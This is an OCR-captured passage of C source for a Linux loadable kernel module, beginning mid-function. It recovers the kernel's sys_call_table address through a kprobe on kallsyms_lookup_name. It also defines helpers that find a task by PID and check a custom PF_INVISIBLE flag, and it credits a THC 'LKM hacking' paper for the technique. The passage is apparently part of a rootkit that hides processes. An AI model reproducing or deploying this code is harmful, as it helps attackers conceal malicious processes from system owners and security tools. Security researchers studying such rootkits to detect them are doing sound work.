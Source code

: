                       //Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
                      
                      /* // Lookup the address for a symbol. Returns 0 if not found.
                      * unsigned long kallsyms_lookup_name(const char *name);
                      * 
                      */
                      typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
                      
                      kallsyms_lookup_name_t kallsyms_lookup_name;
                      register_kprobe(&kp);
                      kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
                      unregister_kprobe(&kp);

                      syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
                      return syscall_table;
                    }

                    /* Technique taken from: https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5. */

                    struct task_struct *find_task(pid_t pid)
                    {
                      struct task_struct *target_process = current;

                      /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601
                      * for loop macro
                      * #define for_each_process(p) \
                      * for (p = &init_task ; (p = next_task(p)) != &init_task ; )
                      */
                      for_each_process(target_process)
                      {
                        if (target_process->pid == pid)
                        {
                          return target_process;
                        }
                      }
                      return NULL;
                    }

                    static int is_invisible(pid_t pid)
                    {
                      struct task_struct *task;

                      if (!pid)
                      {
                        return 0;
                      }

                      task = find_task(pid);
                      if (!task)
                      {
                        return 0;
                      }
                      if (task->flags & PF_INVISIBLE)
                      {
                        return 1;
                      }
                      return 0;
                    }
